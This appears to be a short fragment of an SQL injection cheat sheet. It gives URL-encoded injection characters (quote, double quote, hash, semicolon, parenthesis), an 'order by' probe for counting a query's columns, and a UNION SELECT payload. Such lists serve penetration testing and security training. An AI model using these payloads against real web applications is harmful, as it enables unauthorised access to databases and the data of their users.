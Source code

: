 | Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

Determine columns count(replace # with actual number)
```
order by #
```

```sql
UNION select 1,2,3,4-- -
```
